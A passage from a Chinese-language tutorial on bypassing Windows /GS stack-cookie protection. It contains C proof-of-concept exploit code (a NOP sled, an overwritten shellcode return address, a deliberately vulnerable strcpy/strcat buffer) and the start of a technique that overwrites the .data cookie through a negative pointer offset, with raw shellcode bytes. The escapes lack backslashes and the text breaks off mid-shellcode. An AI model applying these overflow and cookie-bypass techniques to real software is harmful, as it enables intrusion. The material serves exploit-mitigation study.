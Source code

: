 		   "x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

		   "x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

		   "x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90x90"

		   "x90x90x90x90"

		   "xB0xFEx12x0x0"//address of shellcode

		   ;

		   void test(char * input)

		   {

			   char buf[200];

			   __asm int 3;

			   strcpy(buf, input);

			   strcat(buf, input);

		   }

		   void main()

		   {

				test(shellcode);

		   }

从理论上讲，上面的代码没有什么问题，但在我在win2000操作的时候最后的shellcode地址总是取不到最前面的00而被后面的替入了，所以不能实现攻击。应该是直接判断x00为结束标志了。

## **同时替换栈中和.data中的Cookie突破GS**

上面都是对GS的绕过，我们也可以直接从GS上入手，最后的check是比较栈中的cookie和.data里面的值相比，那么我们可以把这两个改成一样的。但这个条件就很苛刻，正常情况下，我们是无法访问到.data段中的，只有当一个指针偏移没有作判断，能够为我们所用，将它指向.data的时候，才能够覆盖修改.data的第一个dword。代码中创造的条件是这样的，先申请一块堆区，再创建一个指针指向的地址是堆区+偏移(i)，当i为我们恶意构造的负数的时候，就有可能指向.data段。

		#include <string.h>

		#include <stdlib.h>

		char shellcode[]=

		 

		"x90x90x90x90"//new value of cookie in .data

		"xFCx68x6Ax0Ax38x1Ex68x63x89xD1x4Fx68x32x74x91x0C"

		"x8BxF4x8Dx7ExF4x33xDBxB7x04x2BxE3x66xBBx33x32x53"

		"x68x75x73x65x72x54x33xD2x64x8Bx5Ax30x8Bx4Bx0Cx8B"

		"x49x1Cx8Bx09x8Bx69x08xADx3Dx6Ax0Ax38x1Ex75x05x95"

		"xFFx57xF8x95x60x8Bx45x3Cx8Bx4Cx05x78x03xCDx8Bx59"

		"x20x03xDDx33xFFx47x8Bx34xBBx03xF5x99x0FxBEx06x3A"

